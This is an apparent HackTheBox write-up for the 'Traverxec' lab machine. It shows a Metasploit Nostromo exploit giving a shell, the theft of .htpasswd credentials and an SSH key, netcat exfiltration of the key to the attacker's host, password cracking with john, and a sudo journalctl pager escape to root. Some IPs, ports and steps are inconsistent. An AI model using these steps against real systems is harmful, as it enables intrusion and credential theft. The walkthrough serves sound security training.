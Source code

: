 ```yaml
---
title: "HackTheBox: Traverxec | Walkthrough"
date: 2020-04-11
categories: [hackthebox]
tags: [nostromo, linux, hackthebox]
---
```


## Enumeration

Checking connection:

```sh
ping 10.10.10.165
```

Finding out more about the webserver:

```sh
nmap -A 10.10.10.165 -o nmapresults.txt
```

We see that on port 80, there's a Nostromo service running. Let's see if there's an exploit for it.

Checking for an exploit:

```sh
searchsploit nostromo
```

So there are a few. Let's try and use the Metasploit one for the ease of use.

## Initial Foothold

Trying to use the exploit:

```sh
msfconsole
     search nostromo
     use exploit/multi/http/nostromo_code_exec
     show options
     set RHOSTS 10.10.10.165
     set LHOST 10.10.14.99
     run
```

Nice we do get a shell. Let's improve it now.

To get a better shell:

```sh
 python -c 'import pty; pty.spawn("/bin/bash")'
 export TERM=xterm
```

## User

Finding the web server:

```sh
 ls -al /var/
 ls -al /var/nostromo
```

We see the conf directory, checking it:

```sh
cd /var/nostromo/conf
ls -al
```

We see a hidden file, `.htpasswd`

```sh
cat .htpasswd
```

Nice, now we have david's credentials. Poor david.

Now, let’s check the other file, `nhttpd.conf`

```sh
cat nhttpd.conf
```

We can see that the homedirs should ring a bell in your head.

Can we go into david's home directory?

```sh
cd /home/david
```

So, we can enter this directory, let's try to see what's in it.

```sh
ls -al
```

It says permission denied, interesting, we can access the directory but not list the files.

```sh
ls -ld .
```

So, it seems that we have execute permissions in this directory but not read permissions, weird.
We know that there's a user.txt file in this directory, so let's check for it.

```sh
ls -l user.txt
```

We can see that the file exists, meaning if we know the name of the file, maybe we will be able to execute it.

```sh
ls -l public_www
```

Damn, so the file actually exists here. Lets copy it somewhere else.

```sh
mkdir /tmp/public_www ; cp public_www/* /tmp/public_www
cd protected-file-area
tar zxvf backup-ssh-identity-files.tgz
```

We get a backup of ssh files.

Now, in another terminal, in our attacking machine, let's set up a netcat listener to transfer the id_rsa file.

```sh
nc -nvlp 4444 > id_rsa
```

Now, back in the traverxec machine, let's send that file over:

```sh
nc 10.10.11.99 444 < id_rsa
```

Now, back in our own machine, to use that `id_rsa` file, we need its password. 
So, we'll have to crack it. For that, we will use `ssh2john` and then, use `john` to crack it.

```sh
updatedb
locate ssh2john #finding ssh2john
cp $(locate ssh2john) ~/HTB/Traverxec #copy it to your working directory
python ssh2john.py id_rsa > id_rsa.hash #converting it
cp $(locate rockyou.txt) ~/HTB/Traverxec #copying the rockyou.txt password file
gunzip rockyou.txt.gz #unziping rockyou.txt
john -wordlist=rockyou.txt id_rsa.hash #cracking the password with john
```

Now, it should give a password.
Now, let's try to ssh into the machine using the `id_rsa` file and the password.
Before we use the `id_rsa` file, let's change the permissions to 600.

```sh
ssh david@10.10.10.165 -i id_rsa
```

Enter the password.

Nice, You are IN!

```sh
cat user.txt
```

## Root

Now, for root, its pretty simple.

```sh
cd bin

cat server-stats.sh
```

We can see that, in the last line, the sudo command is used. Let's check this script.

```sh
./server-stats.sh
```

It doesn't ask for password, that's nice.

Let's try running the command that it runs:

```sh
sudo /usr/bin/journalctl -n5 -unostromo.service
```

Now, the command ran as sudo, we can probably take advantage of it.

Let's quit the terminal from full screen and make it a normal window and run that command again:
Now, `journalctl` opens with less, we can probably execute a command here and it should run as 
root as we have run the `journalctl` command as root with sudo.

```sh
:!/bin/bash
```

Nice, now you should have a new bash shell and you should be root!
Congratulations!
